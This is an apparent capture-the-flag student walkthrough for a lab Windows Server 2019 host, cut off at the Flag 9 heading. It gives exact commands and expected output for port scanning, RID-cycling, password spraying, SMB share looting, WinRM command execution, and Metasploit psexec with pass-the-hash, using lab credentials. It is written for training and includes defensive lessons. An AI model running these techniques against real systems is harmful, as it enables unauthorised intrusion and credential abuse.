



# Windows Server 2019: Student Walkthrough
### overclock Security | Offensive Track | Hands-On Lab

> **What this is.** The complete, in-depth walkthrough. For every objective you get the reasoning
> behind the move, the exact command, the real output, a breakdown of each switch, and the lesson.
> Flags stay censored, so you run the final decode yourself. If you would rather try each objective
> from a hint first and reveal these details only when stuck, use the **Hybrid** page, which folds
> this same walkthrough into collapsible panels.

**Target:** `192.168.148.101` (Windows Server 2019 Build 17763) | **Attacker:** Kali Linux | **Related hosts:** the Win10 workstation (`192.168.148.102`), the OCWA web server | **24 flags**

> **The golden rule.** This is the **crown jewel**, the convergence host where the whole engagement lands.
> Nothing is a free grep. Most flags are **base64** (decode them); a handful stay plaintext because the
> *technique* is the point (the ssh banner, the hidden username, LSASS, ADS). A `findstr /s FLAG{ C:\*`
> returns only **decoys**. Learn to spot markers like `token:`, `Legacy access token:`, `app-config-token:`.
> This is a **workgroup** box, so every `nxc` command needs `--local-auth`.

---

## Table of Contents
1. [How to read this guide](#how-to-read-this-guide)
2. [Initial Setup: preparing your Kali attack box](#initial-setup-preparing-your-kali-attack-box)
3. [Phase 1: Reconnaissance](#phase-1-reconnaissance) | *Flags 17, 24*
4. [Phase 2: User & service discovery](#phase-2-user--service-discovery) | *Flags 1, 2, 19, 5*
5. [Phase 3: Initial access & SMB shares](#phase-3-initial-access--smb-shares) | *Flags 6-9*
6. [Phase 4: Credentials, SAM & hidden data](#phase-4-credentials-sam--hidden-data) | *Flags 10, 11, 18*
7. [Phase 5: Privilege escalation to SYSTEM](#phase-5-privilege-escalation-to-system) | *Flags 3, 4, 15, 16*
8. [Phase 6: Service & registry mining](#phase-6-service--registry-mining) | *Flags 12-14, 20-23*
9. [Cross-host context](#cross-host-context)
10. [Flag checklist](#flag-checklist)

---

## How to read this guide

Each step shows the **exact command** (copy it straight out of the code block) and the **real
terminal output** you should expect. Flags are **censored** like `FLAG{S******8}`. Where a flag
is base64, the output shows the token truncated at the `RkxBR3t…` boundary (that prefix is base64
for `FLAG{`, so it confirms you found a real one). Run the final decode yourself and match the
first letter and last character against the checklist.

Every flag also carries two teaching aids:
- **Command Breakdown** explains each switch, so you understand *why* the command works, not just
  that it does.
- **Flag teaching** points out the alternative tools and approaches that reach the same flag, plus
  the real-world lesson behind it.

> **Note:** most flags are **base64-encoded** where they hide (look for markers like
> `token:`, `Legacy access token:`, `app-config-token:`, `Recovered secret (...base64):`). A blind
> `findstr /s FLAG{` returns only **decoys**. A handful stay plaintext because the *technique* is the
> point (the ssh banner, the hidden username, LSASS, ADS). You will know which when you get there.

---

## Initial Setup: preparing your Kali attack box

```bash
ip a                      # confirm you are on the lab subnet
sudo apt update
sudo apt install -y netexec nmap smbclient smbmap evil-winrm impacket-scripts \
                    metasploit-framework hashcat john freerdp2-x11 ssh burpsuite
# d3coder - one-file base64/JWT decoder used to read the encoded flags (github.com/0x31i/d3coder)
curl -sL https://raw.githubusercontent.com/0x31i/d3coder/main/d3coder -o /tmp/d3coder && sudo install -m 755 /tmp/d3coder /usr/local/bin/d3coder
```

**Command Breakdown:**
- `ip a`: lists your interfaces and addresses. Confirm you have an address on the same `192.168.148.0/24`
  subnet as the target before anything else. You cannot attack what you cannot route to.
- `apt install`: installs the whole offensive toolkit in one shot. Each tool below maps to a specific
  phase of this engagement.

| Tool | Used for |
|------|----------|
| **netexec** (`nxc`) | SMB/WinRM enumeration, RID-brute, `--sam`, command exec |
| **smbclient / smbmap** | listing and pulling files from shares (Flags 6-10) |
| **evil-winrm** | interactive shell (runs as the target user) |
| **impacket-scripts** | `secretsdump`, `psexec`, Pass-the-Hash |
| **ssh** | reading the login banner (Flag 17) |
| **hashcat / john** | cracking dumped hashes |

**Verify you can reach it:**
```bash
nxc smb 192.168.148.101
```
**Expected output:**
```
SMB  192.168.148.101  445  WIN-OJJQFSDINDP  [*] Windows Server 2019 Build 17763 x64 (name:WIN-OJJQFSDINDP) (domain:WIN-OJJQFSDINDP) (signing:False) (SMBv1:True)
```
> **Workgroup box: always use `--local-auth` on `nxc`.** No domain here; authentication is against the
> local SAM. Omit it and valid credentials fail with a confusing error.

---

## Phase 1: Reconnaissance

> **The thinking.** This is the crown-jewel host and we have touched nothing yet, so the first job is to map
> the attack surface before we spend any credential. A server exposes more doors than a workstation (ssh,
> HTTP, SMB, RDP, WinRM), and we want to know which classes of attack are even possible before we commit. We
> also harvest whatever a service volunteers pre-auth (the ssh banner, page source) because that costs
> nothing and tends to seed the next stage. Recon comes first because every later decision (which port,
> which credential, which share) depends on knowing what is actually listening.

**Goal.** Map a broad surface (this box runs more than a workstation) and grab free intel before you have any creds.
**Try.** A service scan (`nmap -sV <target>`). Expect ssh, HTTP, SMB, RDP, WinRM. Each open port is a door,
and two of them (ssh, HTTP) hand you a flag pre-auth if you just read what they volunteer.

**Why we do this.** A port scan is reconnaissance, not attack: each open port is a capability the machine
advertises, and naming the service behind it tells us how we will eventually use a credential (ssh for a
remote shell, HTTP for a web app, SMB for shares, RDP for a desktop, WinRM for remote PowerShell). We
fingerprint versions with `-sV` because "port 445 open" and "Windows Server 2019, workgroup, SMBv1 on" are
very different amounts of intelligence. A server exposes more doors than a workstation, so mapping them first
is what makes every later move deliberate instead of random, and two of these ports (ssh and HTTP) hand us a
flag pre-auth just for reading what they volunteer.

**Command:**

```bash
nmap -Pn -sV -T4 192.168.148.101
```

**Expected output:**

```
Nmap scan report for 192.168.148.101
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_8.1 (protocol 2.0)
80/tcp   open  http          Microsoft IIS httpd 10.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Windows Server 2019 microsoft-ds
3389/tcp open  ms-wbt-server Microsoft Terminal Services
5985/tcp open  wsman         (WinRM)
```

**Command breakdown**
- `-Pn` treat the host as up, skip ping discovery (Windows firewalls drop ICMP), `-sV` fingerprint service and version on every open port, `-T4` faster timing (fine on a lab LAN).
- More attack surface than a workstation: ssh, HTTP, SMB, RDP, WinRM. Each is a door.
- A **workgroup** box (no domain), so every `nxc` command below needs `--local-auth`. Verify reachability first with `nxc smb 192.168.148.101`.



### FLAG 17: ssh login banner (Easy)

**Goal.** Some services hand you a flag just for connecting. Read what ssh serves before you log in.
**Try.** Trigger the ssh banner without authenticating (`ssh -o PreferredAuthentications=none nobody@<target>`).
The banner prints in plaintext, no decode needed.

**Why we go after this.** A login banner is the text an ssh server prints before it will let you authenticate,
and organizations set one to display legal warnings, host names, and usage policy. That is why an
attacker reads it first: it is intelligence the server volunteers for free, before any credential, and it
often confirms the host role, the owning team, or naming conventions that seed the next stage of recon. This
box realistically has one because it is a Windows server running the OpenSSH server feature, and someone
populated `C:\ProgramData\ssh\banner.txt` with a corporate notice, forgetting that a banner is world-visible.
We reason our way here directly from the scan: ssh showed up on port 22, so the cheapest possible move is to
knock on it and read whatever it says without ever logging in. Whatever it leaks becomes a free head start.

**Command:**

```bash
ssh -o PreferredAuthentications=none nobody@192.168.148.101
```

**Expected output:**

```
========================================================
  OverClock Server - authorized use only
  FLAG{T******6}
========================================================
nobody@192.168.148.101: Permission denied (publickey,password).
```

**Command breakdown**
- `-o PreferredAuthentications=none` tells ssh to offer no authentication method, so the server prints its pre-auth banner and then rejects you. You never log in; you just read the banner.
- `nobody@` any username works; you are not authenticating.
- The text lives in `C:\ProgramData\ssh\banner.txt`. `nc 192.168.148.101 22`, `nmap -p22 --script=banner`, or `ssh -v` all reveal it. Banners routinely leak host names, owners, and policy text that feed the next stage of recon.

**Flag teaching.** Any client that touches port 22 sees this without authenticating: `nc 192.168.148.101 22`, `nmap -p22 --script=banner`, or `ssh -v` each pull the same text as the `PreferredAuthentications=none` trick, so no one tool is load-bearing.

**Reading the output.** The banner block prints, then ssh rejects the connection with "Permission denied." That rejection is expected and irrelevant: you already got what you came for, the text above the denial line.

**The lesson.** Pre-authentication banners are free reconnaissance for an attacker and a liability for a defender. Never put host names, owners, or hints in a login banner, and remember that anything a service serves before auth is public by definition.

**Flag 17 found:** `FLAG{T******6}`



### FLAG 24: web portal HTML comment (Easy)

**Goal.** The root page just redirects. Read the raw source, not the rendered page, and follow the redirect to the real app.
**Try.** `curl -s http://<target>/ | grep -i "<!--"` to find the redirect, then read the `/vulnapp/login.html`
source for a base64 `app-config-token:` comment. Decode it.

**Why we go after this.** An HTML comment is text the browser never renders but that ships in the raw source
of every page, and developers use comments as scratchpads: TODOs, disabled code, redirect notes, and far too
often credentials and API tokens. An attacker reads the raw source rather than the pretty rendered page
because the interesting material is the part the browser hides. This box realistically has it
because a developer stood up an internal web app, moved it to `/vulnapp/`, and left a breadcrumb comment
plus a config token behind, the kind of debris that accumulates on any real internal site. We reason to this
straight from recon: port 80 answered, so we fetch the root, discover it only redirects, follow the comment
to the real login page, and mine that page's source too. The redirect trail turns a dead-end root page into
a live app and a flag, and it also surfaces an admin password we will reuse later.

**Command:**

```bash
curl -s http://192.168.148.101/ | grep -i "<!--"
curl -s http://192.168.148.101/vulnapp/login.html | grep -i "app-config-token"
```

**Expected output:**

```
<!-- Application moved to /vulnapp/ -->
<!-- app-config-token: RkxBR3t… -->
```

Decode the token:

```bash
d3coder "RkxBR3t…(the full token)"
```

**Command breakdown**
- `curl -s` fetch the page quietly (no progress meter).
- `grep -i "<!--"` filter to HTML comments. The redirect comment points you at `/vulnapp/`.
- `d3coder` decodes the token once you have the full string. The same `login.html` also leaks `<!-- Admin password: Password123! -->` and a `TODO`. `view-source:` in a browser or Burp expose the same comments. Developers leave credentials, tokens, and TODOs in comments constantly.

**Flag teaching.** The comment is reachable however you read the raw source: `curl -s | grep '<!--'`, `view-source:` in a browser, or intercepting the response in Burp all surface it. The tool does not matter, only that you look at source rather than the rendered page.

**Reading the output.** Note that the same source leaks `<!-- Admin password: Password123! -->`. That is not scenery: `Password123!` is the Administrator credential you will spray in Phase 3 and reuse across every host, so record it now.

**The lesson.** The rendered page and the source are two different documents, and the secrets live in the one users never see. Strip comments from production pages, and as an attacker always read source, not screen.

**Flag 24 found:** `FLAG{A******4}`

---

## Phase 2: User & service discovery

> **The thinking.** Recon told us the doors; now we ask who and what lives behind them so we can aim a
> credential attack. This phase answers "which accounts exist and which services are misconfigured," because
> you cannot spray or target what you have not enumerated. It comes before initial access on purpose: names
> and service metadata are readable with guest-level or first-credential access, and building that inventory
> now means Phase 3's spray is precise instead of noisy. The tradeoff is patience, we resolve accounts the
> hard way (RID cycling) rather than assume the "list users" block stopped us.

**Goal.** Inventory accounts and service metadata so Phase 3's spray is precise, not noisy.
**Try.** RID-cycling (`--rid-brute`) for hidden accounts, `--users` for descriptions, `sc qdescription` and the
Terminal Server registry key for service and RDP metadata. Metadata fields are where the tokens hide.

**Why we do this.** Recon told us the doors; now we build the inventory of who and what lives behind them so a
credential attack can be aimed rather than sprayed blindly. Account names and service metadata are readable at
guest level or with a first credential, so gathering them now makes Phase 3's spray precise instead of noisy.
We confirm reachability first and re-anchor the workgroup detail, because every `nxc` call here authenticates
against the local SAM and silently fails without `--local-auth`. All four flags in this phase (2, 1, 19, 5)
live in metadata (a hidden account name, a user description, a service description, an RDP registry value),
which is the theme: enumeration reads the fields people forget an attacker can read.

Confirm reachability, then remember this is a workgroup box (local SAM auth):

```bash
nxc smb 192.168.148.101
```

**Expected output:**

```
SMB  192.168.148.101  445  WIN-OJJQFSDINDP  [*] Windows Server 2019 Build 17763 x64 (name:WIN-OJJQFSDINDP) (domain:WIN-OJJQFSDINDP) (signing:False) (SMBv1:True)
```

**Command breakdown**
- No domain here; authentication is against the local SAM. Always use `--local-auth` on `nxc`; omit it and valid credentials fail with a confusing error.
- The four flags in this phase (2, 1, 19, 5) all live in metadata: a hidden account name, a user description, a service description, and an RDP registry value.

### FLAG 2: the hidden username (Easy)

**Goal.** One account is named after a flag but hidden from normal listings. Find it without a credential.
**Try.** RID-cycling (`nxc smb ... -u guest -p '' --rid-brute`) walks SIDs and resolves each to a name, even
when `--users` is blocked. The flag is the account name itself, plaintext.

**Why we go after this.** Every Windows account has a SID (Security Identifier) ending in a RID (Relative
ID) that Windows assigns in a predictable sequence: 500 is the built-in Administrator, 501 is Guest, and
normal accounts start at 1000 and climb. RID cycling walks that sequence and asks the SID-to-name resolver
(the `lsarpc` / `samr` named pipe) to translate each one back into a username. This matters because an
administrator can suppress an account from the friendly user listing, but the SID underneath is still there
and still resolvable, so the "hidden" account falls right out. Attackers hunt hidden accounts because they
are a classic backdoor and persistence trick (MITRE T1136): create one, keep it off the normal lists, and
hope nobody enumerates the hard way. We reason to this move because the standard `--users` listing was
blocked, and the disciplined response to a blocked listing is not to quit but to reach for a different
enumeration path, one that talks to the RID pipe directly. Every name we recover becomes a candidate for the
Phase 3 spray.

**Command:**

```bash
nxc smb 192.168.148.101 -u guest -p '' --rid-brute | grep -i FLAG
```

**Expected output:**

```
SMB  192.168.148.101  445  WIN-OJJQFSDINDP  1010: WIN-OJJQFSDINDP\FLAG{P******5} (SidTypeUser)
```

**Command breakdown**
- `-u guest -p ''` the built-in guest with an empty password. Enough to talk to the RID pipe.
- `--rid-brute` walks Relative IDs (500, 501, 1000, 1001, ...) and resolves each SID back to a name. Named-pipe enumeration like this bypasses the "list users" block.
- `impacket-lookupsid guest@192.168.148.101`, `enum4linux-ng`, or `rpcclient -c lookupnames` do the same walk. Hiding an account from a listing does not hide its SID.

**Flag teaching.** RID-cycling is the classic fallback when `--users` is blocked, and it is not tied to netexec: `impacket-lookupsid guest@192.168.148.101`, `enum4linux-ng`, or `rpcclient -c lookupnames` walk the same SID sequence and resolve the hidden name just as well.

**Reading the output.** RID 1010 resolves to an account whose name literally is the flag. The RID above 1000 tells you it is a manually created account, not a built-in, which is itself a hint that someone added it deliberately.

**The lesson.** Hiding an account from a listing is cosmetic, not a security control, because the SID underneath is always resolvable. Defenders should alert on RID-cycling enumeration and audit for unexpected accounts above RID 1000; attackers should never trust a single enumeration source to be complete.

**Flag 2 found:** `FLAG{P******5}`

### FLAG 1: admin's user description (Easy)

**Goal.** Once you have any working credential, read the account metadata. The `overclock` user's Description is the flag.
**Try.** Enumerate users with their descriptions (`--users`, or `rpcclient querydispinfo`). This one is
plaintext, a warm-up that also confirms your credential can enumerate.

**Why we go after this.** Every Windows local account carries a free-text Description field, meant for a
short note like "IT service account" or "shared kiosk." Administrators treat it as a sticky note, so in the
real world it accumulates password hints, ticket numbers, service context, and occasionally passwords
themselves, because whoever wrote it never considered that any authenticated user can read it back. That is
why an attacker who has just earned a credential does not sprint for the loot: the very first, cheapest look
is the account metadata, because secrets hide in boring fields. This box realistically has it because an
admin annotated the `overclock` account and left the note in place. We reason to this because we now hold a
working credential and want to spend it on the lowest-cost, highest-frequency win first, and reading
descriptions also confirms our credential can actually enumerate, a capability we lean on for the rest of
the phase.

**Command:**

```bash
nxc smb 192.168.148.101 -u overclock -p 'Administrator2025!' --local-auth --users
rpcclient -U "overclock%Administrator2025!" 192.168.148.101 -c "querydispinfo"
```

**Expected output:**

```
SMB  192.168.148.101  445  WIN-OJJQFSDINDP  overclock  ...  Description: FLAG{M******5}
```

**Command breakdown**
- `--users` dumps local accounts with their Description field, where the flag hides.
- `rpcclient ... -c "querydispinfo"` an alternative that returns the same descriptions over MS-RPC. Two tools, one answer, in case one is filtered.
- `Get-LocalUser | Select Name,Description`, `net user overclock`, and `wmic useraccount get name,description` all show it. Descriptions and comments are metadata people forget an attacker can read.

**Flag teaching.** This one is a warm-up freebie, and the Description surfaces from any account-listing tool: `Get-LocalUser | Select Name,Description`, `net user overclock`, or `wmic useraccount get name,description` on the box all return it, so a filtered `--users` is never the end of the road.

**The lesson.** Metadata is data. Never write anything sensitive into an account Description, and as an attacker read every field of every account, because the boring ones are where administrators leave notes to themselves.

**Flag 1 found:** `FLAG{M******5}`

### FLAG 19: weak service description (Easy)

**Goal.** A suspiciously named service hides a base64 token in its Description.
**Try.** Read service metadata (`sc qdescription WeakPermService`); one carries a base64 `token:`. Decode it.

**Why we go after this.** A Windows service has its own metadata: a display name, an image path, and a
free-text Description that any authenticated user can read without special rights. Service descriptions are a
recurring hiding spot for the same reason account descriptions are, an admin treats them as a notes field and
forgets they are world-readable. Attackers care about services doubly here: the description may leak a secret,
and the service itself may be a privilege-escalation target (a weak ACL, an unquoted path, a writable binary),
so enumerating services builds the escalation shortlist for later phases. This box realistically has it because
a service literally named `WeakPermService` was created with a token stashed in its description, the sort of
debris a lab or a sloppy deployment leaves behind. We reason to this because we now hold a credential that can
read service config, and querying a suspiciously named service costs nothing while telling us which services
deserve a closer look when we hunt SYSTEM in Phase 5.

**Command:**

```bash
nxc winrm 192.168.148.101 -u overclock -p 'Administrator2025!' -X "sc.exe qdescription WeakPermService"
```

**Expected output:**

```
[SC] QueryServiceConfig2 SUCCESS

SERVICE_NAME: WeakPermService
DESCRIPTION:  Weak Permission Service - token:RkxBR3t…
```

Decode the token:

```bash
d3coder "RkxBR3t…(the full token)"
```

**Command breakdown**
- `-x "..."` runs the command on the target and returns its output over the wire.
- `sc qdescription <service>` prints a service's Description string. `sc` is the built-in Service Control tool; `qdescription` is the query-description subcommand.
- `Get-CimInstance Win32_Service | ? {$_.Name -eq 'WeakPermService'} | fl Description` and `Get-Service` are alternatives. Service descriptions, display names, and image paths are all under-inspected hiding spots.

**Flag teaching.** `sc qdescription` is not the only reader: `Get-CimInstance Win32_Service | ? {$_.Name -eq 'WeakPermService'} | fl Description` and `Get-Service` pull the same string, and the broader habit is to inspect service display names and image paths too, since all three are under-inspected hiding spots.

**Reading the output.** The name `WeakPermService` is a deliberate tell: a service that advertises weak permissions is one to revisit for escalation, so note it alongside grabbing the token.

**The lesson.** Service metadata is readable by every authenticated user and is a favorite place for secrets to hide in plain sight. Audit service descriptions and image paths, and as an attacker treat a suspiciously named service as both a secret store and an escalation candidate.

**Flag 19 found:** `FLAG{F******2}`

### FLAG 5: RDP certificate comment (Medium)

**Goal.** RDP settings live in the registry, and a comment field holds a base64 token.
**Try.** Read the Terminal Server key's `CertificateComment` value (`Get-ItemProperty '...\Terminal Server'`)
and decode the base64.

**Why we go after this.** RDP (Remote Desktop) keeps its configuration in the registry under the Terminal
Server key, and that key holds dozens of values beyond the obvious on/off toggle, including free-text fields
like `CertificateComment`. A registry value is just a named string, and administrators (and tooling) drop
notes, thumbprints, and context into these comment-style fields all the time, forgetting that any account
which can read the hive can read them back. An attacker mines configuration stores because they are quiet,
they carry far more than settings, and reading one value never touches the service itself, so it generates no
connection, no logon event, nothing to notice. This box realistically has it because RDP is enabled and
someone left a token in the certificate comment field, the kind of stray annotation real deployments
accumulate. We reason to this because RDP was one of the doors recon found, and rather than knock on the
service we read its config store from the credential we already hold, mining the RDP tier without ever
connecting to it.

**Command:**

```bash
nxc winrm 192.168.148.101 -u overclock -p 'Administrator2025!' \
  -X "(Get-ItemProperty 'HKLM:\System\CurrentControlSet\Control\Terminal Server').CertificateComment"
```

**Expected output:**

```
RkxBR3t…
```

Decode it:

```bash
d3coder "RkxBR3t…(the full token)"
```

**Command breakdown**
- `Get-ItemProperty '<key>'` reads all values under a registry key.
- `.CertificateComment` selects the single value that holds the token. Dotting a property name is the PowerShell way to pull one value out of a key.
- `reg query "HKLM\System\CurrentControlSet\Control\Terminal Server" /v CertificateComment` is the cmd equivalent. Configuration stores hold far more than settings.

**Flag teaching.** The PowerShell dotted-property read is interchangeable with the cmd `reg query "HKLM\System\CurrentControlSet\Control\Terminal Server" /v CertificateComment`, so whichever tool you have on the target reaches the same value under the RDP configuration key.

**The lesson.** The registry is a giant, under-audited free-text store, and comment-style values are a soft spot for leaked secrets. Reading config keys is a stealthy enumeration technique because it never touches the service; defenders should treat unexpected data in configuration comments as a red flag.

**Flag 5 found:** `FLAG{G******5}`

---

## Phase 3: Initial access & SMB shares

> **The thinking.** We now have names and a map, so this is where enumeration turns into a real foothold. The
> phase answers "which credentials actually work, and what does each unlock," which is why spraying the
> discovered accounts comes right before enumerating shares. The 3-tier share layout (anonymous,
> authenticated, admin) is deliberately teaching the access ladder, so the key decision is to re-enumerate at
> every privilege level we reach rather than settle for the first door that opens. The tradeoff is discipline:
> it is tempting to grab the anonymous share and move on, but the admin tier is where the interesting loot sits.

**Goal.** Turn enumeration into a foothold: spray the discovered accounts, then climb the share access ladder.
**Try.** Password spraying (`nxc smb ... -u users.txt -p passwords.txt --local-auth --continue-on-success`),
then `--shares` to see your READ/WRITE level. Some shares are anonymous, some need creds, one needs admin.

**Why we do this.** This is where enumeration turns into a foothold: we take the account names Phase 2 found
and spray a few common passwords across them, rather than brute-forcing one account into lockout. Spraying is
the safe, low-and-slow way real assessors earn an initial credential without locking anyone out. Once a
credential lands, we enumerate shares to see our READ/WRITE level, because the three-tier layout here
(anonymous, authenticated, admin) is deliberately teaching the access ladder, and the interesting loot sits
behind the higher tiers. The key discipline is to re-enumerate at every privilege level we reach rather than
settle for the first door that opens.

Spray the weak accounts, then enumerate shares:

```bash
# Build the spray lists first (copy-paste). overclock's password is among the candidates:
printf '%s\n' Administrator localadmin overclock svc_backup > users.txt
printf '%s\n' 'Password123!' 'Administrator123' 'Administrator2025!' 'Summer2025!' 'Welcome1' > passwords.txt

nxc smb 192.168.148.101 -u users.txt -p passwords.txt --local-auth --continue-on-success
nxc smb 192.168.148.101 -u overclock -p 'Administrator2025!' --local-auth --shares
```

**Expected output:**

```
SMB  192.168.148.101  445  WIN-OJJQFSDINDP  [+] WIN-OJJQFSDINDP\Administrator:Password123! (Pwn3d!)
SMB  192.168.148.101  445  WIN-OJJQFSDINDP  [+] WIN-OJJQFSDINDP\localadmin:Administrator123 (Pwn3d!)
SMB  192.168.148.101  445  WIN-OJJQFSDINDP  [+] WIN-OJJQFSDINDP\overclock:Administrator2025!
SMB  192.168.148.101  445  WIN-OJJQFSDINDP  Share       Permissions  Remark
SMB  192.168.148.101  445  WIN-OJJQFSDINDP  Public      READ,WRITE
SMB  192.168.148.101  445  WIN-OJJQFSDINDP  Backup      READ
SMB  192.168.148.101  445  WIN-OJJQFSDINDP  IT          READ
SMB  192.168.148.101  445  WIN-OJJQFSDINDP  Data        READ
SMB  192.168.148.101  445  WIN-OJJQFSDINDP  Finance     READ
```

**Command breakdown**
- `-u users.txt -p passwords.txt` files of candidate usernames and passwords. nxc tries the combinations. This is spraying, not brute-forcing one account into lockout.
- `--continue-on-success` keep going after the first hit so you find every valid credential.
- `--shares` list SMB shares and your access level (READ / WRITE) on each.

**In Metasploit** (same spray, and it hands you the Meterpreter session the privesc modules want): `auxiliary/scanner/smb/smb_login` (`set RHOSTS 192.168.148.101`, `set USER_FILE users.txt`, `set PASS_FILE passwords.txt`, `set SMBDomain .`, `run`), then turn admin creds into a SYSTEM shell with `exploit/windows/smb/psexec` (`set SMBUser Administrator`, `set SMBPass 'Password123!'`, `run` → `meterpreter`). `psexec` also takes a hash in `SMBPass` (`aad3b435…:<NThash>`) for pass-the-hash.

### FLAGs 6-8: the three shares (Easy / Medium / Hard)

**Goal.** Climb the access ladder: anonymous, then authenticated, then admin. Flag 8 proves you reached admin.
**Try.** Each share (**Public** = anonymous, **Backup** = needs creds, **IT** = needs admin) holds a
`README_ACCESS.txt` with a base64 "Legacy access token". Pull each with `smbclient` and decode.

**Why we go after this.** An SMB share is a folder the server exposes over the network, and each share has
its own access-control list, so different shares grant different people different rights. Real file servers
almost always end up with a tiered layout: a Public share open to everyone, department shares that need a
valid login, and an IT or Backup share locked to administrators. That tiering is why an attacker
re-enumerates shares at every privilege level, because the content you can read is gated by the credential
you currently hold, and the interesting loot lives behind the higher tiers. This box realistically has it
because that three-tier layout (anonymous, authenticated, admin) is standard Windows file-server design, and
the lab drops the same `README_ACCESS.txt` into each tier so a successful read proves you reached that
level. We reason our way through it as a ladder: anonymous access confirms the box will talk to strangers at
all, the Backup tier confirms our sprayed credential really works, and the IT tier confirms we genuinely hold
Administrator, each rung gating the next.

**Command:**

```bash
smbclient //192.168.148.101/Public -N -c 'get README_ACCESS.txt'         # anonymous
cat README_ACCESS.txt
```

**Expected output:**

```
getting file \README_ACCESS.txt of size 96 as README_ACCESS.txt
OC Public share - internal use only.
Legacy access token: RkxBR3t…
```

Decode Public's token:

```bash
d3coder "RkxBR3t…"      # Public  ->  FLAG{S******0}
```

**Backup (any authenticated user).** Try it anonymously first and watch it fail. That failure is itself the finding: the share is real, but a null session is turned away.

```bash
smbclient //192.168.148.101/Backup -N -c 'ls'
```
```
tree connect failed: NT_STATUS_ACCESS_DENIED
```

Now bring the credential you sprayed earlier (`overclock`). Authenticated, the same read goes through:

```bash
smbclient //192.168.148.101/Backup -U 'overclock%Administrator2025!' -c 'get README_ACCESS.txt -'
d3coder "RkxBR3t…"      # Backup  ->  FLAG{E******7}
```
```
OC Backup share - internal use only.
Legacy access token: RkxBR3t…
```

The contrast (denied anonymous, allowed authenticated) proves two things at once: your credential is genuine, and this tier sits above Public.

**IT (admin only).** Your ordinary `overclock` login is not enough here either:

```bash
smbclient //192.168.148.101/IT -U 'overclock%Administrator2025!' -c 'ls'
```
```
tree connect failed: NT_STATUS_ACCESS_DENIED
```

It opens only once you hold Administrator (recovered via LSASS or Pass-the-Hash in the escalation phases):

```bash
smbclient //192.168.148.101/IT -U Administrator%Password123! -c 'get README_ACCESS.txt -'
d3coder "RkxBR3t…"      # IT  ->  FLAG{J******7}
```
```
OC IT share - internal use only.
Legacy access token: RkxBR3t…
```

Three shares, three access levels: anonymous, any authenticated user, admin. Each rung proves you climbed one credential higher, which is why you re-run this sweep after every escalation.

**Command breakdown**
- `//host/Share` the UNC path to a specific share.
- `-N` no password (anonymous). Works on `Public`, fails on `Backup` and `IT`.
- `-U user%pass` authenticate as a user. `Backup` needs any valid credential; `IT` needs admin.
- `-c 'get <file>'` run one smbclient command non-interactively and exit. `smbmap -H 192.168.148.101 -u overclock -p 'Administrator2025!' -R` recurses every share at once. Access level gates content, so re-enumerate every share at every privilege level you gain.

**Flag teaching.** You do not have to pull each README by hand: `smbmap -H 192.168.148.101 -u overclock -p 'Administrator2025!' -R` recursively lists and can download in one pass, and `nxc smb ... --spider_plus` maps every share at once, so switching credential tiers is just re-running the same sweep at each privilege level.

**Reading the output.** The `-N` (anonymous) pull succeeds on Public but fails on Backup and IT. That failure is the map: it tells you exactly which tier each share belongs to, so you know which credential to bring to each.

**The lesson.** Share content is gated by access level, so a single enumeration pass never tells the whole story. Re-enumerate every share at every privilege you gain, and as a defender remember that an anonymously readable share is an open invitation to strangers.

**Flags 6-8 found:** `FLAG{S******0}`, `FLAG{E******7}`, `FLAG{J******7}`

### FLAG 9: password file in Public (Easy)

